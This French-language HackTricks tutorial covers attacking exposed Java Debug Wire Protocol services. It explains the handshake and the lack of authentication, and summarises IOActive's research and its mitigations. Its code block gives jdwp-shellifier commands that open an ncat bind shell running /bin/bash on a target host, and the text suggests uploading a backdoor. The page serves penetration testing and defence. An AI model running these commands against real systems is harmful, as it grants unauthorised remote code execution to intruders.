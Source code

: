 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supportez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Obtenez la perspective d'un hacker sur vos applications web, votre réseau et votre cloud

**Trouvez et signalez des vulnérabilités critiques et exploitables ayant un impact commercial réel.** Utilisez nos 20+ outils personnalisés pour cartographier la surface d'attaque, trouver des problèmes de sécurité qui vous permettent d'escalader les privilèges, et utilisez des exploits automatisés pour collecter des preuves essentielles, transformant votre travail acharné en rapports convaincants.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploitation

L'exploitation de JDWP repose sur le **manque d'authentification et de cryptage du protocole**. On le trouve généralement sur le **port 8000**, mais d'autres ports sont possibles. La connexion initiale se fait en envoyant un "JDWP-Handshake" au port cible. Si un service JDWP est actif, il répond avec la même chaîne, confirmant sa présence. Ce handshake agit comme une méthode de fingerprinting pour identifier les services JDWP sur le réseau.

En termes d'identification de processus, rechercher la chaîne "jdwk" dans les processus Java peut indiquer une session JDWP active.

L'outil de référence est [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Vous pouvez l'utiliser avec différents paramètres :
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
J'ai constaté que l'utilisation de `--break-on 'java.lang.String.indexOf'` rend l'exploit plus **stable**. Et si vous avez la possibilité de télécharger un backdoor sur l'hôte et de l'exécuter au lieu d'exécuter une commande, l'exploit sera encore plus stable.

## Plus de détails

**Ceci est un résumé de [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Consultez-le pour plus de détails.

1. **Aperçu de JDWP** :
- C'est un protocole binaire réseau basé sur des paquets, principalement synchrone.
- Il manque d'authentification et de cryptage, ce qui le rend vulnérable lorsqu'il est exposé à des réseaux hostiles.

2. **Handshake JDWP** :
- Un processus de handshake simple est utilisé pour initier la communication. Une chaîne ASCII de 14 caractères “JDWP-Handshake” est échangée entre le Débogueur (client) et le Débogué (serveur).

3. **Communication JDWP** :
- Les messages ont une structure simple avec des champs comme Longueur, Id, Drapeau et CommandSet.
- Les valeurs de CommandSet varient de 0x40 à 0x80, représentant différentes actions et événements.

4. **Exploitation** :
- JDWP permet de charger et d'invoquer des classes et du bytecode arbitraires, posant des risques de sécurité.
- L'article détaille un processus d'exploitation en cinq étapes, impliquant la récupération des références Java Runtime, la définition de points d'arrêt et l'invocation de méthodes.

5. **Exploitation dans la vie réelle** :
- Malgré les protections potentielles des pare-feu, les services JDWP sont découvrables et exploitables dans des scénarios réels, comme le démontrent les recherches sur des plateformes comme ShodanHQ et GitHub.
- Le script d'exploit a été testé contre diverses versions de JDK et est indépendant de la plateforme, offrant une exécution de code à distance (RCE) fiable.

6. **Implications de sécurité** :
- La présence de services JDWP ouverts sur Internet souligne la nécessité de révisions de sécurité régulières, de désactivation des fonctionnalités de débogage en production et de configurations appropriées des pare-feu.

### **Références :**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Obtenez la perspective d'un hacker sur vos applications web, votre réseau et le cloud

**Trouvez et signalez des vulnérabilités critiques et exploitables ayant un impact commercial réel.** Utilisez nos 20+ outils personnalisés pour cartographier la surface d'attaque, trouver des problèmes de sécurité qui vous permettent d'escalader les privilèges, et utilisez des exploits automatisés pour collecter des preuves essentielles, transformant votre travail acharné en rapports convaincants.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
